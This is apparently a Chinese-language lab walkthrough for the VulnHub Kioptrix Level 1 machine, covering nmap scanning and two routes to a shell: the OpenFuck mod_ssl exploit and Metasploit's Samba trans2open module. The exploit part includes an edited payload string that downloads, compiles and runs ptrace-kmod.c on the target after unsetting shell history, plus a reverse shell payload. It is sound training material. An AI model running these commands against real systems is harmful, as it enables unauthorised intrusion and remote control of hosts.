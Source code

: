 ```yaml
---
title: "VulnHub 22 Kioptrix: Level 1 (#1)"
date: 2025-04-20
tags: ["vulnhub", "linux"]
categories: walkthrough
---
```



<https://www.vulnhub.com/entry/kioptrix-level-1-1,22>

文件 Kioptrix_Level_1.rar

## 环境

| 名称                   | IP             |
| ---------------------- | -------------- |
| Kali Linux             | 192.168.11.130 |
| Kioptrix: Level 1 (#1) | 192.168.11.131 |

```bash
$ sed -i '/^ethernet0/d' 'Kioptix Level 1.vmdk'
```

VMware  Workstation人工添加网络适配器，配置nat网络后启动。

## 打点

```bash
└─$ sudo arp-scan -l
192.168.11.131  00:0c:29:ec:be:04       (Unknown)
└─$ export rip=192.168.11.131
└─$ nmap $rip -p- --min-rate 10000
```

![](https://static.guyu.pro/VulnHub/22/20250420211523181.png)

```bash
└─$ nmap -sV -p 443 --script ssl-enum-ciphers,ssl-cert $rip
```

![](https://static.guyu.pro/VulnHub/22/20250420212128080.png)

```bash
└─$ nmap -p 139,445 --script smb-vuln* $rip                
```

![](https://static.guyu.pro/VulnHub/22/20250420212506523.png)

## OpenLuck

参考<https://github.com/heltonWernik/OpenLuck>

```bash
└─$ git clone https://github.com/heltonWernik/OpenFuck.git
└─$ cd OpenFuck
└─$ sudo apt-get install libssl-dev
```



```bash
└─$ wget https://pastebin.com/raw/C7v25Xr9 -O ptrace-kmod.c
└─$ python -m http.server 80
```

编辑`OpenFuck.c`第673行
```cpp
#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://pastebin.com/raw/C7v25Xr9 -O ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"


#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://192.168.11.130/ptrace-kmod.c -O ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```

```
└─$ gcc -o OpenFuck OpenFuck.c -lcrypto
└─$ ./OpenFuck 0x6b 192.168.11.131 443 -c 40
```

![](https://static.guyu.pro/VulnHub/22/20250420214238867.png)

## Samba trans2open Overflow

```bash
└─$ msfconsole 
msf6 > use exploit/linux/samba/trans2open
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.11.131
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit
```

![](https://static.guyu.pro/VulnHub/22/20250420214944326.png)
